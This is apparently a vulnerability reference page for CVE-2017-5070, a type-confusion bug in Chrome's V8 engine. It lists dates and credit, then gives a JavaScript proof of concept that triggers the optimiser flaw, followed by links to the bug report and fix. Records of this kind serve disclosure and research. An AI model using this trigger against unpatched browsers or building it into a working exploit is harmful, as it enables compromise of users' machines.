 # CVE-2017-5070

- Report: Apr 2017
- Fix: May 2017
- Credit: Zhao Qixun(@S0rryMybad) of Qihoo 360 Vulcan Team

## PoC

```javascript
var array = [[{}], [1.1]];

function transition() {
  for(var i = 0; i < array.length; i++){
    var arr = array[i];
    arr[0] = {};
  }
}

var double_arr2 = [1.1,2.2];

var flag = 0;
function swap() {
  try {} catch(e) {}  // Prevent Crankshaft from inlining this.
  if (flag == 1) {
    array[1] = double_arr2;
  }
}

var expected = 6.176516726456e-312;
function f(){
  swap();
  double_arr2[0] = 1;
  transition();
  double_arr2[1] = expected;
}

// %OptimizeFunctionOnNextCall(f);
for(var i = 0; i < 0x10000; i++) {
  f();
}
flag = 1;
f();
assertEquals(expected, double_arr2[1]);
```

## Reference

- [Issue](https://crbug.com/722756)
- [Fix](https://chromium.googlesource.com/v8/v8.git/+/e33fd30777f99a0d6e16b16d096a2663b1031457)
